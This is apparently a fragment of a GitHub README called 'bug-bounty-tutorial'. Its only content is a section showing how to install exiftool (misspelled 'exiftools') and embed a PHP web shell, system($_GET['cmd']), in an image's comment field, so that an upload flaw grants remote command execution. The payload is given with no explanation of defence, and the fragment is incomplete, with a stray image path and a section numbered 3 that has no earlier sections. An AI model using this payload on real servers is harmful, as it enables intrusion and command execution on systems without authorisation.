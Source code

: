 # bug-bounty-tutorial
bug bounty tutorial

## 3.intro bug bounty
```
apt-get install exiftools

exiftools -Comment="<?php echo system(\$_GET["cmd"]); ?>" image_name

```
